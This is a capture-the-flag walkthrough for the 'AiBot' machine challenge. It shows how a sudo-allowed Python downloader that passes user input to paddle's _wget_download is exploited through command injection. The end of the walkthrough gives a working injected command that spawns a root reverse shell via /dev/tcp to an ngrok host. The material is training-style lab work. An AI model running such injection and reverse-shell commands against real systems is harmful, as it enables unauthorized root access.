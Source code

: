 ```yaml
---

title: "AiBot"  
date: "2025-4-15"  
thumbnail: "/assets/img/thumbnail/Aibot.png"

---
```


# AiBot
---
**Challenges Difficulty: Medium**  
**Category: Machines**

## WALKTHROUGH 
This challenge is from Cybertalant 2025 ramadan nights CTF

---

First thing we got is a terminal with a user called **ttyduser** to list this user permissions use 
```bash
sudo -l
```

![image.png](/assets/img/posts/Aibot/image.png)
ttyduser can run **/usr/bin/python3 /opt/aiwget.py** with sudo 

```python
import argparse
import re
from paddle import utils

def is_valid_url(url):
    regex = re.compile(
    r'^(?:http|ftp|https)s?://',
    re.IGNORECASE,
    )
    return re.match(regex, url) is not None

def is_valid_path(path):
    return path.startswith("/tmp")

def main():
    parser = argparse.ArgumentParser(description='Download AI Model.')
    parser.add_argument('url', type=str, help='URL to download from')
    parser.add_argument('path', type=str, help='Path to save the file, must start with /tmp')
    args parser.parse_args()
    if not is_valid_url(args.url):
        raise ValueError("The URL is not valid.")
    if not is_valid_path(args.path):
        raise ValueError("The path must start with /tmp.")
    utils.download._wget_download(args.url, args.path)

if __name__ == '__main__':
    main()
```
This script requires two arguments:
1. **url**: the link to the AI Model to download
2. **path**: path to save model to and must start with /tmp

Takes the arguments directly from the user and passes them to _wget_download function
we found a cve for [utils.download._wget_download](https://nvd.nist.gov/vuln/detail/CVE-2024-0815) function

![image.png](/assets/img/posts/Aibot/image%201.png)

So we tried to do so

```
sudo /usr/bin/python3 /opt/aiwget.py "https://; sleep 10" /tmp/model
```

![image.png](/assets/img/posts/Aibot/image%202.png)

and it works so lets try to get a revere shell using ngrok

```
ngrok tcp 4444 
```

![image.png](/assets/img/posts/Aibot/image%203.png)

```
sudo /usr/bin/python3 /opt/aiwget.py "https://; bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/14455 0>&1'" /tmp/model
```

![image.png](/assets/img/posts/Aibot/image%204.png)
